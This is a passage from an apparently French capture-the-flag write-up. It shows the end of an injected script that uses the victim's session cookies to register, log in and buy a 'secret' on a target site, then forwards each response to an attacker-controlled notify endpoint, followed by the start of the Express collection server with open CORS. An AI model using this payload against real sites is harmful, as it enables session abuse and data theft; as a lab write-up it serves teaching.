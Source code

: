 ```html
      const htm = await respon.text();
      await notify("/register_done", { content: htm });
      const respo = await fetch(sourceUrl + "/login", {
        method: "POST",
        credentials: "include",
        headers: {
          "Content-Type": "application/x-www-form-urlencoded",
        },
        body: new URLSearchParams({
          username: "a",
          password: "a",
        }),
      });

      const ht = await respo.text();
      await notify("/login_done", { content: ht });
      const resp = await fetch(sourceUrl + "/buy/secret", {
        method: "POST",
        credentials: "include",
      });
      const h = await resp.text();
      await notify("/get_secret", { content: h });
    } catch (err) {
      await notify("/error", {
        status: "not ok",
        val: String(err),
      });
    }
  })();
</script>
```

Ce script inclus l'option "credentials:'include'" lors des requêtes FETCH afin de garantir la conservation de la session, cela est possible grace à l'utilisation de HTTPS dans l'ensemble du challenge ainsi qu'a une configuration CORS adaptée.

Le code coté serveur doit égallement être adapté :

```javascript
const express = require("express");
const fs = require("fs");
const path = require("path");
const child_process = require("child_process");

const app = express();
const PORT = 80;

const cors = require("cors");
app.use(cors());
app.options("*", cors());
// Middleware pour parser le JSON
app.use(express.json());

app.get("/", (req, res) => {
  console.log("get /");
  res.end("ok");
});

app.get("/:anything", (req, res) => {
  console.log(req.params.anything);
  res.end("ok");
});

// Route pour recevoir les données
```